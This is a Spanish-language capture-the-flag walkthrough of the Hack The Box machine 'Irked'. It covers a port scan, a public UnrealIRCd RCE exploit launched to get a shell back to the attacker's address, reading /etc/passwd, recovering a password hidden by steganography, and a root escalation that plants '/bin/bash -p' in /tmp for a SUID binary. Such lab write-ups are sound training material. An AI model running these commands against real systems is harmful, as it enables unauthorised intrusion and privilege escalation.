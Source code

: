 # Irked ![Avatar](https://www.hackthebox.eu/storage/avatars/5fb846e75cf0db0c4b27e2dc64a9bf82_thumb.png)

## Initial Scan

```
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34234/tcp   status
|   100024  1          41847/udp   status
|   100024  1          47934/udp6  status
|_  100024  1          51357/tcp6  status
6697/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
8067/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
34234/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
```

## Enumeration

La versión del IRC presenta una vulnerabilidad (CVE 2010-2075) que permite RCE, exploremos esta via

## Exploit

Encontramos un exploit que valga para este CVE y nos lo descargamos
```
https://github.com/M4LV0/UnrealIRCd-3.2.8.1-RCE
```
Lancemos el exploit
```
python2.7 pwnunrealirc.py 10.10.14.2 4444 10.10.10.117 6697
```
Tenemos shell
```
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```
Dado que no hay user.txt en nuestra carpeta veamos que mas usuarios tenemos
```
ircd@irked:~/Unreal3.2$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash
ircd:x:1001:1001::/home/ircd:/bin/sh
```
djmardov tiene la flag del user no por intuición si no porque podemos ver dentro de su carpeta home, no tenemos permiso para leerla, pero si para leer un archivo de backup

```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
Steg puede implicar la presencia de steganografia en la imagen hallada en la pagina web, descargemosla y comprobemos si podemos sacar algo 

```
pj@crow-foot:~/Current$ steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss 
anoto los datos extraodos en/"pass.txt".
```
En pass.txt tenemos lo siguiente
```
Kab6h+m+bbp2J:HG
```
Las creds quedan asi
```creds
djmardov:Kab6h+m+bbp2J:HG
```
Y con esto ya podemos logearnos y obtener la primera flag
## Priv Escalation

Buscamos SUID
```
djmardov@irked:~$ find / -type f -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
```
viewuser parece sospechoso, ejecutemoslo

```
djmardov@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-08-01 10:45 (:0)
djmardov pts/1        2020-08-01 12:22 (10.10.14.2)
sh: 1: /tmp/listusers: not found
```
Parece que busca algún archivo en /tmp veamos si podemos invocar una shell abusando de ello.

```
echo '/bin/bash -p' > /tmp/listusers
djmardov@irked:~$ /usr/bin/viewuser 
```
Con esto ya tenmos una shell como administrador
```
root@irked:~# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth).
```

Ahora solo nos queda leer la root flag 
```
root@irked:/root# wc -c root.txt 
33 root.txt
```
# Analisís de la intrusión
### CVE 2010-2075
La versión del IRC presentea una vulnerabilidad RCE que nos permitio obtener una shell en el sistema
### Sensible data leak
Las contraseñas del usuario han sido guardadads bajo esteganografia en el servicio web, esto es una mala practica que nos ha conducido a acceder como djmardov
### Viewuser SUID
Existe un binario con SUID que nos permitio elevar privilegios por una mala gestión de acceso a archivos por parte del mismo, llamando a un archivo en /tmp que podemos modificar para que ejecute lo que queramos
